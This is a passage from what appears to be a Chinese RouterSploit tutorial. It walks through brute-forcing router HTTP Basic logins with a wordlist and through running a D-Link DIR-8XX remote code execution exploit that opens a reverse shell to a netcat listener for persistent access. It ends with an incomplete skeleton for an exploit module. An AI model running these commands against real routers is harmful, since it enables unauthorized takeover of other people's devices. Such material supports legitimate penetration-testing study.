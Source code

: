 #### 2. 暴力破解凭证

当默认口令无效时，可以使用暴力破解模块：

```bash
# 使用 HTTP 基础认证暴力破解
rsf > use creds/http_basic_bruteforce
rsf (HTTP Basic Bruteforce) > set target 192.168.1.1
rsf (HTTP Basic Bruteforce) > set port 80

# 设置用户名和密码字典
rsf (HTTP Basic Bruteforce) > set username admin
rsf (HTTP Basic Bruteforce) > set passwords_file /usr/share/wordlists/rockyou.txt

# 执行破解
rsf (HTTP Basic Bruteforce) > run
```

#### 3. 自定义 Payload 和反向连接

对于需要建立持久访问的情况：

```bash
rsf > use exploits/routers/dlink/dir_8xx_remote_code_execution
rsf (D-Link DIR-8XX RCE) > set target 192.168.1.1
rsf (D-Link DIR-8XX RCE) > set payload reverse_tcp

# 设置监听器信息
rsf (D-Link DIR-8XX RCE) > set lhost 192.168.1.100  # 你的IP
rsf (D-Link DIR-8XX RCE) > set lport 4444

# 在执行前，在另一个终端启动监听
# nc -nvlp 4444

rsf (D-Link DIR-8XX RCE) > run
```

#### 4. 模块开发基础

RouterSploit 的模块结构相对简单。一个基本的漏洞利用模块包含：

```python
from routersploit.core.exploit import *
from routersploit.core.http.http_client import HTTPClient

class Exploit(HTTPClient):
    __info__ = {
        "name": "Example Router RCE",
        "description": "Exploit description here",
        "authors": ("YourName",),
        "references": ("CVE-2020-XXXXX",),
        "devices": ("Vendor Model",)
    }
    
    target = OptIP("", "Target IP address")
    port = OptPort(80, "Target HTTP port")
    
    def run(self):
        # 漏洞利用逻辑在这里实现
        if self.check():
            print_success("Target is vulnerable!")
            # 执行利用代码...
        else:
            print_error("Target is not vulnerable")
    
    def check(self):
        # 漏洞验证逻辑
```